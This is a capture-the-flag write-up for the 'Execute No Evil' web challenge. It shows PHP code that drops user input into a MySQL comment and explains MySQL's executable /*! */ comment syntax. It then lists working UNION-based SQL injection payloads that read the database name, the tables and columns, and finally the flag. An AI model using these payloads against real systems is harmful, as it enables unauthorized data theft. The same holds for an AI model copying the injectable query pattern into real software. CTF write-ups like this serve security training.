


# Execute No Evil

 > (1) New Message: "Hey dude. So we have this database system at work and I
 > just found an SQL injection point. I quickly fixed it by commenting out all
 > the user input in the query. Don't worry, I made the query so that it
 > responds with boss's profile, since he is kind of the only person actively
 > using this database system, and he always looks up his own name, lol. Anyway,
 > guess we'll go with this til' the sysadmin comes and fixes the issue."

 

| Asset        | Note                                                          |
|--------------|---------------------------------------------------------------|
| Author       | Milkdrop                                                      |
| Category     | Web Exploitation                                              |
| Original URL | `http://challs.xmas.htsp.ro:11002`                            |
|      Dump    | 💾 [Files](./files)                                           |



## Analysis

Looking at the HTML you'll see it's not much but a GET parameter called `name`:

```
<form class="center">
	<h2>Cobalt Inc. employee database search</h2>
	<label>Name:</label>
	<input type="text" name="name" autocomplete="off">
	<input type="submit" value="Search">
</form>
```

Looking closer we can also get the PHP source code by passing `?source=1` to
the page:

```
<!-- ?source=1 -->
```

Looking at the source we see there is an SQL injection vector:

```
$name = str_replace ("*", "", $name);
$records = mysqli_query ($conn, "SELECT * FROM users WHERE name=/*" . $name . "*/ 'Geronimo'", MYSQLI_USE_RESULT); // Don't tell boss
```

## Exploitation

A basic rule of thumb is that if something takes user input and isn't using a
prepared statement it probably can be exploited in some way. This takes user
input and it doesn't use SQL prepared statements.

However, it does have a comment and it "guards" against using the `*` character
to easily end the comment. The problem is that MySQL has a very stupid feature
where the contents of a comment are actually executable, as described in the
[Comment Syntax][1] in the MySQL documentation:

>  MySQL Server supports certain variants of C-style comments. These enable you to
write code that includes MySQL extensions, but is still portable, by using
comments of the following form:
>
> /\*! MySQL-specific code \*/

Yes. It really be like that. This means we can execute SQL by simply starting
our query with an `!`. We have to juggle the query such that it ends with the
string `'Geronimo'`, but otherwise we have full injection. In terms of data
output we have two parameters:

```
while ($row = mysqli_fetch_array ($records, MYSQLI_ASSOC)) {
    echo '<tr>
        <td>',$row["name"],'</td>
        <td>',$row["description"],'</td>
    </tr>';
}
```

First we find out what database we are in:

```
! 'admin' or 1 UNION SELECT name, description,(select DATABASE() from DUAL) FROM users WHERE 1 or name=
```

This shows we are in the `ctf` database:


We can do the same thing now looking for tables:

```
! 'admin' or 1 UNION SELECT name, description,(select TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA='ctf' limit 1,1) FROM users WHERE 1 or name=
```

This shows we have a table called `flag`:


Now let's look for the column name:

```
! 'admin' or 1 UNION SELECT name, description,(select COLUMN_NAME from information_schema.COLUMNS where TABLE_SCHEMA='ctf' AND TABLE_NAME='flag' limit 1) FROM users WHERE 1 or name=
```

This shows there is a column named `whatsthis`:


Lastly we can grab the flag:

```
! 'admin' or 1 UNION SELECT name, description,(select whatsthis from flag limit 1) FROM users WHERE 1 or name=
```


[1]: https://dev.mysql.com/doc/refman/5.7/en/comments.html
